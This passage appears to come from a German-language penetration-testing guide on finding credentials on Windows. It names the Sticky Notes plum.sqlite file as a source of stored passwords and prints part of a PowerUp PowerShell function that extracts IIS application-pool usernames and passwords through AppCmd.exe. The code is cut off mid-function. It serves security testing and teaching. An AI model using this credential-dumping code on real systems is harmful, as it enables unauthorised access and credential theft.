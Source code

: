 
### Sticky Notes

Menschen verwenden oft die StickyNotes-App auf Windows-Workstations, um **Passwörter** und andere Informationen zu **speichern**, ohne zu erkennen, dass es sich um eine Datenbankdatei handelt. Diese Datei befindet sich unter `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite` und es lohnt sich immer, danach zu suchen und sie zu untersuchen.

### AppCmd.exe

**Beachten Sie, dass Sie Administrator sein müssen und unter einem hohen Integritätslevel laufen müssen, um Passwörter aus AppCmd.exe wiederherzustellen.**\
**AppCmd.exe** befindet sich im Verzeichnis `%systemroot%\system32\inetsrv\`.\
Wenn diese Datei existiert, ist es möglich, dass einige **Anmeldeinformationen** konfiguriert wurden und **wiederhergestellt** werden können.

Dieser Code wurde aus [**PowerUP**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) extrahiert:
```bash
function Get-ApplicationHost {
$OrigError = $ErrorActionPreference
$ErrorActionPreference = "SilentlyContinue"

# Check if appcmd.exe exists
if (Test-Path  ("$Env:SystemRoot\System32\inetsrv\appcmd.exe")) {
# Create data table to house results
$DataTable = New-Object System.Data.DataTable

# Create and name columns in the data table
$Null = $DataTable.Columns.Add("user")
$Null = $DataTable.Columns.Add("pass")
$Null = $DataTable.Columns.Add("type")
$Null = $DataTable.Columns.Add("vdir")
$Null = $DataTable.Columns.Add("apppool")

# Get list of application pools
Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppools /text:name" | ForEach-Object {

# Get application pool name
$PoolName = $_

# Get username
$PoolUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.username"
$PoolUser = Invoke-Expression $PoolUserCmd

# Get password
$PoolPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.password"
$PoolPassword = Invoke-Expression $PoolPasswordCmd

# Check if credentials exists
if (($PoolPassword -ne "") -and ($PoolPassword -isnot [system.array])) {
# Add credentials to database
$Null = $DataTable.Rows.Add($PoolUser, $PoolPassword,'Application Pool','NA',$PoolName)
}
}

# Get list of virtual directories
Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir /text:vdir.name" | ForEach-Object {

# Get Virtual Directory Name
$VdirName = $_
```
